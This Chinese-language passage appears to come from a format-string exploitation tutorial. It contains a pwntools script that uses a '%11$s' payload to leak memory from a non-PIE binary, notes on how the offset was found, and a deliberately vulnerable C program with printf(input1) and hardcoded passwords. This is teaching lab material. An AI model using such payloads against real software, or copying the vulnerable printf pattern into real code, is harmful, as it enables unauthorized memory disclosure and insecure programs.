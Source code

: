 使用以下命令编译：
```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```
### 攻击利用
```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```
* 偏移量为11，因为设置多个A并使用循环进行**暴力破解**，从偏移量0到50发现，在偏移量11处并带有5个额外字符（在我们的情况下是竖线`|`），可以控制完整地址。
* 我使用**`%11$p`**进行填充，直到看到地址全为0x4141414141414141。
* **格式字符串有效载荷位于地址之前**，因为**printf在遇到空字节时停止读取**，所以如果我们先发送地址，然后发送格式字符串，printf永远不会到达格式字符串，因为会先遇到空字节。
* 选择的地址是0x00400000，因为这是二进制文件的起始位置（没有PIE）
```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
char stack_password[20] = "secretStackPass"; // Password in stack
char input1[20], input2[20];

printf("Enter first password: ");
scanf("%19s", input1);

printf("Enter second password: ");
scanf("%19s", input2);

// Vulnerable printf
printf(input1);
printf("\n");

// Check both passwords
if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
printf("Access Granted.\n");
} else {
printf("Access Denied.\n");
}

return 0;
}
```
使用以下命令编译：
```bash
clang -o fs-read fs-read.c -Wno-format-security
```
### 从栈中读取
